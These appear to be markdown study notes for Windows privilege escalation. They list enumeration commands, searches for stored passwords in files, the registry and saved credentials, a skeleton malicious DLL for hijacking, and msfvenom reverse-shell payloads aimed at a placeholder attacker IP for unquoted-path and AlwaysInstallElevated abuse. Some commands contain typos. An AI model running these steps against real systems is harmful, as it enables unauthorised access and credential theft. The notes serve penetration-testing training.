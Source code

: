 ## Check version
- System Information
- `systeminfo` on command prompt

 ## Log
  - Event Viewer
	  - To see login logs: Windows Logs -> Security, search for Event ID 4624
	  - Assign special privileges is located in Security also with Event ID 4672

# cmd
## User Enumeration
```sh
whoami /priv   #current user privileges
net users      #list users
net user username    #list details of username
qwinsta       #list other users logged in simultaneously
query session # same as qwinsta
net localgroup # user group defined on the system
net localgroup group #list member of specific group

```
## System information
```shell
systeminfo    #overview of the target system
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" #grep for OS
hostname   #show hostname

#show installed patches
wmic qfe get Caption,Description,HotFixID,InstalledOn

#show network connection
nestat -ano

#query scheduled task
schtasks /query /fo LIST /v

#query drivers
driverquery

#query the service named windefend
sc query windefend
#query all service
sc queryex type=service
```
The command above can be broken down as follows;
-   `-a`: Displays all active connections and listening ports on the target system.
-   `-n`: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
-   `-o`: Displays the process ID using each listed connection.
## Searching files
```sh
findstr   # grep for windows
findstr /si password *.txt
```
Command breakdown:
`findstr`: Searches for patterns of text in files.
`/si`: Searches the current directory and all subdirectories (s), ignores upper case / lower case differences (i)
`password`: The command will search for the string “password” in files
`*.txt`: The search will cover files that have a .txt extension

## Launching PowerShell script
```shell
powershell.exe -nop -exec bypass  #open powershell
Import-Module .\PowerUp.ps1     # import the script
Invoke-AllChecks   # run some module on from the script
```

# Privilege Escalation
## Windows Exploit Suggester
If you can't run an automated tools like WinPEAS or PowerUp script in the target machine, you can use windows exploit suggester from you attacker machine.
https://github.com/bitsadmin/wesng
The command is
`windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`
Where `sysinfo_output.txt` is an output of `systeminfo` from the target.

Run `windows-exploit-suggester.py –update` first to update the exploit database.

## Software Enumeration
```shell
wmic product # will dump information on installed software
wmic product get name,version,vendor #filtered to more useful info

wmic service list brief # list running service
wmic service list brief | findstr  "Running" # filtered with running

sc qc SERVICENAME # detailed info for service
```
Software found can be checked with usual exploit database(searchsploit, metasploit, etc)

## DLL Hijacking
replace existing or add missing DLL that has been manipulated to contain malicious code.
The order software looks for DLL(search order) is explained here:
https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order

In short:
If **SafeDllSearchMode** is enabled, the search order is as follows:
1.  The directory from which the application loaded.
2.  The system directory. Use the **[GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya)** function to get the path of this directory.
3.  The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
4.  The Windows directory. Use the **[GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya)** function to get the path of this directory.
5.  The current directory.
6.  The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

If **SafeDllSearchMode** is disabled, the search order is as follows:
1.  The directory from which the application loaded.
2.  The current directory.
3.  The system directory. Use the **[GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya)** function to get the path of this directory.
4.  The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.
5.  The Windows directory. Use the **[GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya)** function to get the path of this directory.
6.  The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

Process Monitor(ProcMon) can be used to see what dll the application will load. It need elevated privilege, so you need to test it in your machine, though the application can be different depending on its version.

Then we can create a malicious dll:
```c
//this is a skeleton malicious dll
#include <windows.h>  
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {     
	if (dwReason == DLL_PROCESS_ATTACH) {         
		system("cmd.exe /k whoami > C:\\Temp\\dll.txt"); 
		        ExitProcess(0);     
	}     
	return TRUE; 
}
```
Then compile with
`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
from: `apt install gcc-mingw-w64-x86-64`

move it to the target path, then restart with:
`sc stop dllsvc & sc start dllsvc`

## Unquoted service path
Look for service with:
`wmic service get name,displayname,pathname,startmode`
Look for service with path that we can write on with
`.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`
accesschk can be downloaded from google.
and hijack the unquoted path with msfvenom payload:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=ATTACK_PORT -f exe > executable_name.exe`.
Catch in metasploit multi handler, And:

Start service: `sc start servicename`

## AlwaysInstallElevated
if you can set an installer to be installed with admin privilege, you can use payload from msfvenom to get a privileged reverse shell.

First try to set two registry values:
```sh
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Then create a payload with:
`msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

then catch it in multi/handler

## Passwords
We have seen earlier that looking for configuration or user-generated files containing cleartext passwords can be rewarding. There are other locations on Windows that could hide cleartext passwords.  
  
**Saved credentials:** Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials.  
`cmdkey /list`  

If you see any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.  
`runas /savecred /user:admin reverse_shell.exe`  
  
**Registry keys:** Registry keys potentially containing passwords can be queried using the commands below.  
`reg query HKLM /f password /t REG_SZ /s`  
`reg query HKCU /f password /t REG_SZ /s`



